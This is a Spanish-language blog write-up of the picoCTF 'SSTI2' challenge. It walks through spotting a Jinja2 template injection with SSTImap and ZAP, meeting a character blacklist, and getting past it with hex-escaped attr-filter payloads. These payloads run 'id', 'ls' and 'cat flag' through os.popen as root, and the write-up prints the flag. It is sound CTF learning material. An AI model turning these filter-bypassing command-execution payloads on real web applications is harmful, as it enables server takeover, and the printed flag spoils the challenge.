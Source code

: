 ```yaml
---
title: SSTI2
date: 2025-07-22 23:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, explotación web]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```


>SSTI2
Author: Venax
Description
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :) I heard templating is a cool and modular way to build web apps! Check out my website here!
{: .prompt-tip }

El reto se inicia con un formulario web que propone una entrada para hacer un anuncio, introduces un texto y se muestra en otra página en letras grandes.

```html
 Home

I built a cool website that lets you announce whatever you want!*
What do you want to announce: 
```

Si echamos la vista atrás en en reto [pico-ctf-sst1](../pico-ctf-sst1) ya hacíamos esta comprobación de provocar un error al introducir una división por zero y en este reto podemos hacer lo mismo, obteniendo el primer positivo al introducir { {1/0} }, en principio un positivo.

``` html
Internal Server Error
The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.
```

En dicha ocasión me valí de **Sttimap** una herramienta que automatiza el proceso de explotación de este tipo de vulnerabilidades. Esta vez la detección nos dice que no puede levantar una shell, pero parece que sí hay un punto de inyección con motor Jinja2, supuestamente vulnerable. Toca seguir escarbando.

``` shell
(sstimap) pablo☠office sstimap$ ./sstimap.py  -f --os-shell --url="http://shape-facility.picoctf.net:52506"

    ╔══════╦══════╦═══════╗ ▀█▀
    ║ ╔════╣ ╔════╩══╗ ╔══╝═╗▀╔═
    ║ ╚════╣ ╚════╗  ║ ║    ║{║  _ __ ___   __ _ _ __
    ╚════╗ ╠════╗ ║  ║ ║    ║*║ | '_ ` _ \ / _` | '_ \
    ╔════╝ ╠════╝ ║  ║ ║    ║}║ | | | | | | (_| | |_) |
    ╚══════╩══════╝  ╚═╝    ╚╦╝ |_| |_| |_|\__,_| .__/
                             │                  | |
                                                |_|
[*] Version: 1.2.3
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] Loaded plugins by categories: languages: 5; generic: 3; legacy_engines: 2; engines: 17
[*] Loaded request body types: 4

[*] Starting form detection...
[+] Form found: POST http://shape-facility.picoctf.net:52506/ "content="
[*] Scanning form with url: http://shape-facility.picoctf.net:52506/
[+] SSTImap identified the following injection point:

  Body parameter: content
  Engine: Jinja2
  Injection: *
  Context: text
  OS: undetected
  Technique: render
  Capabilities:

    Shell command execution: no
    Bind and reverse shell: no
    File write: no
    File read: no
    Code evaluation: no

[-] No system command execution capabilities have been detected on the target.
```

Al capturar con Zap proxy el request, me doy cuenta de el el request se codifica antes de ser enviado. 

``` 
POST http://shape-facility.picoctf.net:52506/ HTTP/1.1
Host: shape-facility.picoctf.net:52506
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://shape-facility.picoctf.net:52506
Connection: keep-alive
Referer: http://shape-facility.picoctf.net:52506/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

content=%7B%7B3*3%7D%7D
```

%7B%7B3*3%7D%7D = {\{3*3}\} 

Busqué un payload que funcionase con esta vulnerabilidad y encontré lo que me pareción muy razonable. Pues supuestamente estaríamos haciendo que este motor ejecute instrucciones de Python, por lo que podemos intentar algo así:

[https://github.com/Jieyab89/Jinja2-python-or-flask-SSTI-vulnerability-payload-](https://github.com/Jieyab89/Jinja2-python-or-flask-SSTI-vulnerability-payload-)

>\{\{ request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('whoami')['read']() \}\}

Sin embargo el la web del formulario al enviar este payload nos envía a una web con el siguente mensaje

``` html 
Stop trying to break me >:(
```

Bueno no es la flag pero nos da una pista, si además hacemos caso de las pistas proporcionadas "Why is blacklisting characters a bad idea to sanitize input?", ¿Es posible que haya algún caracter(es) que filtre el formulario?.

Al hacer el request y capturar con Zap nos muestra que hay ciertos caracteres que no se está encodeando.

``` 
POST http://shape-facility.picoctf.net:52506/ HTTP/1.1
Host: shape-facility.picoctf.net:52506
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 192
Origin: http://shape-facility.picoctf.net:52506
Connection: keep-alive
Referer: http://shape-facility.picoctf.net:52506/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

content=%7B%7B+request%5B%27application%27%5D%5B%27__globals__%27%5D%5B%27__builtins__%27%5D%5B%27__import__%27%5D%28%27os%27%29%5B%27popen%27%5D%28%27whoami%27%29%5B%27read%27%5D%28%29+%7D%7D
```

Encontré un payload aún más razonable respecto a lo comenta su autor. evitar que un WAF detecte ciertos caracteres como "_" o el ".", además este payload está adaptado a Jinja2. Por cierto muy interesante el repositorio, está lleno de payloads.
[https://github.com/swisskyrepo/PayloadsAllTheThings/pull/181/commits/7e7f5e762831266b22531c258d628172c7038bb9](https://github.com/swisskyrepo/PayloadsAllTheThings/pull/181/commits/7e7f5e762831266b22531c258d628172c7038bb9)

## ¿Qué es attr en Jinja2?
En Jinja2, attr es un filtro que sirve para acceder a un atributo de un objeto de forma dinámica usando el nombre del atributo como cadena.
Se utiliza cuando se hace uso de Jinja2 en un proyecto de esta forma. Y es la misma forma que vamos a probar para lanzar comandos.

\{\{ obj|attr('nombre_atributo') \}\}

## Generando un payload dirigido

\{\{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()\}\}

Resultado somos root

> uid=0(root) gid=0(root) groups=0(root) 

Buscamos la flag primero lanzando un ls

\{\{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()\}\}

Encontramos el archivo flag

```
__pycache__ app.py flag requirements.txt 
```

Ya solo queda leer el archivo

\{\{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()\}\}


picoCTF{sst1_f1lt3r_byp4ss_0ef4bd3d}

flag: **picoCTF{sst1_f1lt3r_byp4ss_0ef4bd3d}**

Nota: Si alguno de estos payloads no te funciona prueba a juntar las llaves "{" pues es problemático para Chirpy.